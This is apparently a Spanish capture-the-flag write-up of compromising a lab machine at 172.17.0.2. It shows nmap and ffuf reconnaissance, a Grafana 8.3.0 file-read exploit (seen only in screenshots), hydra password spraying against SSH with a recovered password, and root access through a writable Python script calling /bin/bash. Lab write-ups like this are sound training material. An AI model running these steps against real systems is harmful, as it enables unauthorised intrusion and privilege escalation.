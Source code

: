 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240903173808.png)

Compruebo el puerto 3000 y es grafana v8.3.0. 
Lo primero que hago es fuzzing para buscar algo interesante en el servidor http: 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](Imágenes/Pasted%20image%2020240903174102.png)

Leyendo maintenance.html, encuentro lo siguiente:
![](Imágenes/Pasted%20image%2020240903174130.png)

Paso a investigar sobre esa versión de grafana:
![](Imágenes/Pasted%20image%2020240903174249.png)

Usaré el código que proporcionan para intentar abusar de la vulnerabilidad. Me permite leer un archivo, así que elijo el encontrado anteriormente:
![](Imágenes/Pasted%20image%2020240903174534.png)

Ahora usaré hydra para probar esta contraseña con múltiples usuarios:
```shell
hydra -p t9sH76gpQ82UFeZ3GXZS  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.2 -t 16 
```

![](Imágenes/Pasted%20image%2020240903175020.png)

Accedo por ssh y compruebo permisos:
![](Imágenes/Pasted%20image%2020240903175158.png)

Como puedo editar el script ya que freddy es el dueño, ejecutaré bash desde el mismo para convertirme en superusuario: 

```python
import os

os.system("/bin/bash")
```

![](Imágenes/Pasted%20image%2020240903175702.png)

